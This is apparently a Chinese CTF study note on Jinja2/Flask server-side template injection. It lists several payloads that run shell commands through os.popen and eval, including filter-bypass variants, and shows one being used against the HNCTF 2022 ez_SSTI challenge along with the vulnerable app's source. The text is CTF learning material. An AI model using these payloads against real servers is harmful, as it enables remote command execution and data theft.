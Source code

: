 ```python
{{lipsum.__globals__['os'].popen('tac ../flag').read()}}
{{lipsum.__globals__['o''s']['po''pen']('ls').read()}}
#request对象的方法绕过

{{cycler.__init__.__globals__.os.popen('ls /').read()}}

{{ config.__class__.__init__.__globals__['o''s']['pop''en']('ls /').read() }}                                                                                                                                                                                                       


#flask
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag.txt').read()")}}{% endif %}{% endfor %}
                                                                                                                                                                                                        
{{ config.__class__.__init__.__globals__['os'].popen('ls /').read() }}                                                                                                                                                                                                       
```

...

还有很多很多





### 题目实战
#### NSSCTF--[HNCTF 2022 WEEK2]ez_SSTI
1. 手工

Payload:

```plain
?name={{config.__class__.__init__.__globals__[%27os%27].popen(%27cat%20app.py%27).read()}}
```

我看了一下`app.py`

```python
from flask import Flask, render_template_string, request

app = Flask(__name__)

@app.route("/")
def app_index():
    name = request.args.get('name')
    blacklist = []

    if name:
        for forbidden_name in blacklist:
            if forbidden_name in name:
                return 'Hacker'

    template = '''
    {% block body %}
    <div class="center-content error">
        <h1>WELCOME TO HNCTF</h1>
        <a href="https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#python" id="test" target="_blank">
            What is server-side template injection?
        </a>
        <h3>%s</h3>
    </div>
    {% endblock %}
```